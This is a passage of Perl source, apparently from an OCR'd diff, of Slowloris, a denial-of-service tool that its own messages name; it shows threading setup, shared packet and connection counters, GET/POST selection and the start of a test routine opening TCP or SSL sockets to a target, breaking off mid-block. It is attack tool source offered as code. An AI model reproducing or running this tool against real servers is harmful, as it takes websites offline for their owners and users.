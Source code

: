 +    $usemultithreading = 1;
+    use threads;
+    use threads::shared;
+}
+else {
+    print "No multithreading capabilites found!\n";
+    print "Slowloris will be slower than normal as a result.\n";
+}
+
+my $packetcount : shared     = 0;
+my $failed : shared          = 0;
+my $connectioncount : shared = 0;
+
+srand() if ($cache);
+
+if ($shost) {
+    $sendhost = $shost;
+}
+else {
+    $sendhost = $host;
+}
+if ($httpready) {
+    $method = "POST";
+}
+else {
+    $method = "GET";
+}
+
+if ($test) {
+    my @times = ( "2", "30", "90", "240", "500" );
+    my $totaltime = 0;
+    foreach (@times) {
+        $totaltime = $totaltime + $_;
+    }
+    $totaltime = $totaltime / 60;
+    print "This test could take up to $totaltime minutes.\n";
+
+    my $delay   = 0;
+    my $working = 0;
+    my $sock;
+
+    if ($ssl) {
+        if (
+            $sock = new IO::Socket::SSL(
+                PeerAddr => "$host",
+                PeerPort => "$port",
+                Timeout  => "$tcpto",
+                Proto    => "tcp",
+            )
+          )
+        {
+            $working = 1;
+        }
+    }
+    else {
+        if (
+            $sock = new IO::Socket::INET(
+                PeerAddr => "$host",
+                PeerPort => "$port",
+                Timeout  => "$tcpto",
+                Proto    => "tcp",
+            )
+          )
+        {